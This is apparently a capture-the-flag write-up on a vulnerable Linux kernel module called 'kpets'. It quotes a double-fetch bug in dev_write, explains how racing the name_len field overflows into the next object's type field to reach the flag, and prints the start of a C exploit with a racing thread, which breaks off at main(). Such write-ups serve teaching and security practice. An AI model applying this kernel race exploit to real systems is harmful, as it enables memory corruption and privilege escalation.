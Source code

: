 To read kpets, we could read `/dev/kpets` and see output from `dmesg` since the output is printed with `printk`.

## attacc

The vulnerability is in `dev_write`, where it tries to fetch 2 times at a user buffer (hence the double fetch).

```c
copy_from_user(&kpets_from_user_name_len, &kpets_from_user->name_len, 4LL);
if ( kpets_from_user_name_len > 0x20 ) {
  // die
}
...
copy_from_user(&kpets_from_user_name_len_2, &kpets_from_user->name_len, 4LL); // second fetch!!!
copy_from_user(kpets_id_ptr->name, kpets_from_user->name, kpets_from_user_name_len_2);
```

To exploit this we could use race condition to create change `kpets->name_len` just enough to bypass the first check and overflow the buffer. Remember that we only need to create the `kpet->type == '\xAA'` to get the flag? we could just overwrite the next `kpet->type` to `0xAA` using overflow on current `kpet->name` buffer.

## exploit

Rather than explaining the exploit method, here a commented source code.

```c
#define _GNU_SOURCE
#include <fcntl.h>
#include <string.h>
#include <unistd.h>
#include <stdlib.h>
#include <pthread.h>

#define KDOG   0xC0
#define KCAT   0xC1
#define KSHEEP 0xC2
#define KFLAG  0xAA

typedef struct kpets {
  int type;
  unsigned int name_len;
  char name[0x20];
  unsigned int desc_len;
  char desc[0x41]; // overwrite next->type
} kpets;

static int fd;
static kpets* pet;

static void *evil_thread()
{
  /*
   * This will change the name_len between 0 and 0x65 forever,
   * current->name[0x20] + current->desc_len[0x4] +
   * current->desc[0x40] + next->type[0x1] == 0x65, and hope
   * that 0 will hit the first length check and 0x65 when hit
   * the second fetch and surely overwrite our next kpet->type
   */
  for(;;) pet->name_len ^= 0x65;
  return NULL;
}

int main(int argc, char const *argv[]) {
```